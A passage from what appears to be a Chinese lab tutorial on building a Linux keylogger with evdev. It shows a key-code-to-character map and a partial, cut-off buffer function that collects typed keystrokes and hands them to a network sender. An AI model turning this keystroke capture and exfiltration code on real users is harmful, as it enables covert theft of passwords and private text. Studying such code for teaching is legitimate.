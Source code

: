 下图是`StatusManager`在键盘输入后的`Shift`和`Caps`的状态图。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid168344labid3093timestamp1498026858761.png/wm)

原始的`event`类的属性比较少，扩展的`CuskeyEvent`类的`status_code`属性表示当前按键的状态 (down 按下，up 释放，hold 按住不放)，`key`属性将原始的数据转化为`ascii`字符。

为了将原始数据对应到 ascii 码表的字符，我们需要建立一个映射字典:

```
code_dict = {
        1: 'ESC', 2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8',
        10: '9', 11: '0', 14: 'backspace', 15: 'tab', 16: 'q', 17: 'w', 18: 'e',
        19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p', 26: '[',
        27: ']', 28: 'enter', 29: 'ctrl', 30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g',
        35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';', 40: "'", 41: '`', 42: 'shift',
        43: '\\', 44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',',
        52: '.', 53: '/', 54: 'shift', 56: 'alt', 57: 'space', 58: 'capslock', 59: 'F1',
        60: 'F2', 61: 'F3', 62: 'F4', 63: 'F5', 64: 'F6', 65: 'F7', 66: 'F8', 67: 'F9',
        68: 'F10', 69: 'numlock', 70: 'scrollock', 87: 'F11', 88: 'F12', 97: 'ctrl', 99: 'sys_Rq',
        100: 'alt', 102: 'home', 104: 'PageUp', 105: 'Left', 106: 'Right', 107: 'End',
        108: 'Down', 109: 'PageDown', 111: 'del', 125: 'Win', 126: 'Win', 127: 'compose'
    }

```

下图是`evdev`库获取的原始数据及解码后的结果。其中 0 和 1 表示键盘*按下*还是*释放*。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid168344labid3093timestamp1498027454139.png/wm)

为了简化程序，我们在这里不处理`F1~12`、`Del`等按不常用按键的处理，为此我们对按键进行分类，将这类按键划入到`unvalidate`。而一些特殊按键，比如 f5 等通过`is_show`进行过滤，用户可自行修改该方法过滤不需要的按键。

#### 5.2.4 `字符缓冲区`处理`Backspace`, `Left`, `Right`特殊按键

当使用键盘输入时不可避免的会出错，那么我们会执行回退 (`Backspace`) 操作, 当按下`Backspace`按键时上一次输入需要抹除掉，`Left`和`Right`操作会调到指定的位置进行输入。所以需要一个`字符缓冲区`来记录用户的输入以便处理上述情况。本程序中我们使用`列表`结构来作为缓冲区。这里一个要注意的地方就是 hook_func 参数，在`Python`中要改变传入的参数的值，那么需要传入列表或者是字典结构，这里使用列表来传值。该函数的作用是当程序终止记录键盘输入时，确保缓冲区的内容全部被发送出去。使用`闭包`来避免声明全局缓冲区变量。用户可根据注释里的提示完成扩展功能。

```
def content_handler(net_work_handler, hook_func, str_cached_length=10):
    """
        input_str_content 保存键盘输入的内容,
        str_cached_length 缓冲区的长度为10K
        net_work_handler函数为处理记录文件的函数

       # TODO 当前的程序每次都需要去计算内容的长度，
       当输入的内容比较长时，是会严重影响性能的
       我已经帮你定义了content_length， 请完善char_handler函数
       使用content_length来代替len(input_str_content)
    """
    input_str_content = []
    postion = [None, ]
    content_length = [0, ]

    # hook_func 是为了保证缓冲区数据全部被发送出去
    def __hook_func():
        if input_str_content:
            net_work_handler("".join(input_str_content))
    hook_func[0] = __hook_func

    def char_handler(in_str):
        # backspace键，从缓冲区减去字符
        if in_str == 'backspace':
            if input_str_content:
                input_str_content.pop()
            # TODO content_length - 1
```